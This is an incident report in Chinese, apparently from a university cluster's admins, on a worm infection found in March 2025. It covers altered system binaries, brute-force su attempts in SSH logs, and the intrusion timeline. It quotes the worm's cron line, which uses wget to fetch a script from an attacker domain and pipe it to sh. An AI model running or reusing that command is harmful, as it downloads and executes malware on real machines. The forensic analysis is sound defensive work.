 ## 事发过程

2025 年 3 月 13 日晚，有同学发现计算节点 M603 DNS 解析出现问题。由于集群使用无盘系统架构，对于各种奇奇怪怪的故障问题，我们习惯通过重启解决。重启后一段时间内没有再次发现问题。

2025 年 3 月 15 日上午，M603 DNS 解析再次出现问题。下面是当日时间线：

- **10:47** @star 发现 `/etc/resolv.conf` 被篡改。群内询问无果，怀疑有脏东西。
- **16:30** @bowling 在 A700 上测试并开启了 sudoer 和 auditd 审计。
- **18:30** @bowling 发现集群对外网丢包率突发达到 100%。
- **21:00** @star 利用 OverlayFS 对 lowerdir 写时复制的特性，从 upperdir `/live/cow` 发现：

    - 关键可执行文件被篡改：

        ```text
        usr
        ├── bin
        │   ├── last
        │   ├── lastlog
        │   ├── ls
        │   ├── netstat
        │   ├── w
        │   └── who
        └── sbin
            ├── nologin
            └── rmt-tar
        ```

    - `/etc/cron.hourly/0` 有异常命令：

        ```bash
        wget --quiet http://cf0.pw/etc/cron.hourly/0 -O- 2>/dev/null|sh>/dev/null 2>&1
        ```

        在 Google 搜索该域名，发现大量关于蠕虫病毒的信息。

至此确认集群感染蠕虫病毒。随即开始对日志 sudo 命令进行审计，还原入侵过程。

## 入侵还原

入侵还原主要通过日志行为审计、询问相关人员、对系统进行完整性校验等方式进行。

- **2025-03-06 04:25:34** 某实验室 JumpServer 被校园网 IPS 入侵防御系统发现为口令破解攻击源。
- **2025-03-13 04:52:05** 攻击者通过暂未查明来源的 SSH 密钥登录 `zzm` 账户，经 JumpServer 入侵 pcie-up 服务器。入侵后立刻开始暴力破解服务器上所有账户的密码，日志中出现大量失败的 `su` 记录：

    ```text
    Mar 13 04:52:05 sct-pcie5-up sshd[662845]: Accepted publickey for zzm from ***.***.***.***(JumpServer) port 40744 ssh2: RSA SHA256:PJYq6uB2Vyeytlv5GzB/VRUHxhdpIj0kfl/WRbhxWII
    Mar 13 04:52:05 sct-pcie5-up sshd[662845]: pam_unix(sshd:session): session opened for user zzm(uid=1021) by (uid=0)
    Mar 13 04:52:05 sct-pcie5-up systemd-logind[2534]: New session 252 of user zzm.
    Mar 13 04:52:05 sct-pcie5-up systemd[662848]: pam_unix(systemd-user:session): session opened for user zzm(uid=1021) by (uid=0)
    Mar 13 04:52:05 sct-pcie5-up systemd[1]: Started Session 252 of User zzm.
    Mar 13 04:54:47 sct-pcie5-up sudo[663151]:      zzm : command not allowed ; TTY=pts/0 ; PWD=/home/zzm ; USER=root ; COMMAND=validate
    Mar 13 04:56:08 sct-pcie5-up su[663188]: pam_unix(su:auth): authentication failure; logname=zzm uid=1021 euid=0 tty=/dev/pts/0 ruser=zzm rhost=  user=zx
    ...
    Mar 13 04:57:04 sct-pcie-up su[710316]: pam_unix(su:auth): authentication failure; logname= uid=1021 euid=0 tty= ruser=zzm rhost= user=root
    Mar 13 04:57:06 sct-pcie-up su[710316]: FAILED SU (to root) zzm on none
    ```
